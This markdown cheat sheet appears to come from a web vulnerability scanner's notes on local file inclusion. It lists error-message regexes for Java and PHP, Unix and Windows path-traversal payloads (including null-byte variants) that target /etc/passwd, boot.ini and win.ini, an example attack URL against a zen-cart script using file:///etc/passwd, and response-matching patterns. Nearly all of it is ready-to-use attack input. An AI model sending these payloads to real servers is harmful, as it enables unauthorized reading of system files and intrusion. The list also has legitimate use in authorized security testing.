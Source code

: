 ### LFI 

#### Errors:
```
Detect Payload: abc.txt
```

##### Java Errors:
```
java\.io\.FileNotFoundException|java\.lang\.Exception|java\.lang\.IllegalArgumentException|java\.net\.MalformedURLException
```
##### PHP Errors:
```
Warning: include\(|Warning: unlink\(|for inclusion \(include_path=|fread\(|Failed opening required|Warning: file_get_contents\(|Fatal error: require_once\(|Warning: file_exists\(
```

##### Unix Payloads:
```
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd
../../../../../../../../../../../../../../../etc/passwd
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.html
/etc/passwd
```

another type of LFI http://website/zen-cart/extras/curltest.php?url=file:///etc/passwd
```
file:///etc/passwd
/etc/passwd%00
/etc/passwd%00.html
/etc/passwd%00.ext
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.ext
```

##### Windows Payloads:
```
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini
../../../../../../../../../../../../../../../boot.ini
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini%00
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini%00.html
C:\\boot.ini
C:\\boot.ini%00
C:\\boot.ini%00.html
%SYSTEMROOT%\\win.ini
%SYSTEMROOT%\\win.ini%00
%SYSTEMROOT%\\win.ini%00.html
file:///C:/boot.ini
file:///C:/win.ini
C:\\boot.ini%00.ext
%SYSTEMROOT%\\win.ini%00.ext
```
search in response 
##### Regexp:
```
root:x|for 16-bit app support|boot loader
```
Payloads:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders



